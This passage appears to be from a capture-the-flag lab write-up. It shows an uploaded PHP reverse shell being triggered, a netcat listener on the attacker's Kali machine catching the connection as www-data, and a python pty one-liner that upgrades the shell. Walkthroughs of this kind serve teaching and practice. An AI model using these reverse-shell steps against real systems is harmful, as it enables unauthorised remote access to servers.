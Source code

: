 Reload the page and verify that my shell has been uploaded successfully:

![Untitled](/assets/Sustah%20images/Untitled%2010.png)

On my local machine, I start a listener and then click on the **monkey_shell.php** on the web-browser to execute the shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.12.217] 38072
Linux ubuntu-xenial 4.4.0-197-generic #229-Ubuntu SMP Wed Nov 25 11:05:42 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:06:15 up 22 min,  0 users,  load average: 0.00, 0.04, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu-xenial:/$ id;whoami;pwd
id;whoami;pwd
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/
```
